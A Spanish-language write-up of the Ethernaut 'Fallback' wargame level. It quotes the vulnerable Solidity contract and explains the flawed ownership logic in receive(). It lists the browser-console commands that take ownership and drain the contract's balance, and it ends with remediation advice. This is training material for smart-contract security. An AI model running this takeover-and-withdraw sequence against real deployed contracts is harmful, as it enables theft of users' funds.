

# 01 - Fallback

**Plataforma:** Ethernaut (OpenZeppelin)  
**Categoría:** Fallback Functions  
**Herramientas:** MetaMask, consola del navegador (Chrome DevTools)  

### 📂 Estructura de Archivos
* `README.md`: Writeup del nivel.
* `assets/`: Directorio con las capturas de evidencia.

---

### Enunciado

El nivel pide dos cosas sobre la instancia del contrato `Fallback`:

1. Convertirse en `owner` del contrato.
2. Reducir su saldo a 0.

A diferencia del tutorial, no hay métodos de pista: la vulnerabilidad se encuentra leyendo el código Solidity que muestra la página del nivel.

---

## Análisis

### Código del contrato

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

### Puntos clave

- **`withdraw()`** transfiere *todo* el saldo del contrato al `owner`, pero está protegida con `onlyOwner`. Es el paso final: primero hay que ser dueño.
- **`contribute()`** es el camino "legítimo" para volverse `owner`: hay que superar la contribución del dueño actual. Pero el constructor le asigna **1000 ETH** de contribución y cada aporte tiene que ser menor a **0.001 ETH**, así que harían falta más de un millón de transacciones. En la práctica es imposible.
- **`receive()`** es la función que se ejecuta cuando el contrato recibe ETH **sin que se llame a ninguna función** (una transferencia "pelada"). Solo exige dos condiciones:
  - `msg.value > 0`: mandar algo de ETH.
  - `contributions[msg.sender] > 0`: haber contribuido alguna vez, aunque sea una cantidad mínima.

  Si se cumplen, hace `owner = msg.sender` **sin compararse con la contribución del dueño actual**.

### Vulnerabilidad

La lógica de cambio de dueño está duplicada y la copia en `receive()` es mucho más laxa que la de `contribute()`. Con una contribución mínima y un envío directo de ETH, cualquiera se queda con el contrato y puede vaciarlo con `withdraw()`.

---

## Explotación

Cadena de comandos ejecutada en la consola, sobre una instancia nueva del nivel:

```javascript
// 1. Contribuir una cantidad mínima (< 0.001 ETH) para que contributions[player] > 0
await contract.contribute({value: toWei("0.0001")})

// 2. Verificar la contribución (lectura, sin gas)
await contract.getContribution()

// 3. Mandar ETH directo al contrato, sin llamar a ninguna función → se ejecuta receive()
await contract.sendTransaction({value: toWei("0.0001")})

// 4. Ya como owner, vaciar el contrato
await contract.withdraw()

// 5. Confirmar el dueño (lectura)
await contract.owner()
// '0x4bB1A9CeA4083a3b90912ebB8A1882B6a07c94Ac' → la dirección del jugador
```

`toWei` es un helper de la consola de Ethernaut que convierte ETH a wei (1 ETH = 10¹⁸ wei). `getContribution()` devuelve un `uint256`, que la consola muestra como un objeto *BigNumber*; con `.toString()` se ve el valor en wei.

`contribute`, `sendTransaction` y `withdraw` son transacciones: cada una devuelve un objeto con `tx`, `receipt` y `logs`, y MetaMask pide confirmarla. `getContribution` y `owner` son lecturas.

Por último, **Submit instance** (una transacción más hacia el contrato `Ethernaut`, que MetaMask pide confirmar). El juego valida que `owner` sea la dirección del jugador y que el saldo de la instancia sea 0:


*Las tres transacciones del ataque, el `owner` ya igual a la dirección del jugador y el nivel aprobado tras el submit.*

---

## 🛡️ Remediación (Developer Perspective)

- **`receive()` no debe tener lógica de privilegios.** Una función que se dispara con cualquier envío de ETH tiene que limitarse a aceptar el pago (o rechazarlo). En este contrato bastaría con eliminar `owner = msg.sender` de `receive()`, o eliminar `receive()` si el contrato no necesita recibir ETH directo.
- **Una sola vía, explícita, para transferir la propiedad.** Si hace falta cambiar de dueño, que sea con una función dedicada protegida con `onlyOwner` (por ejemplo, `transferOwnership` de `Ownable` de OpenZeppelin), no como efecto secundario de otra operación.
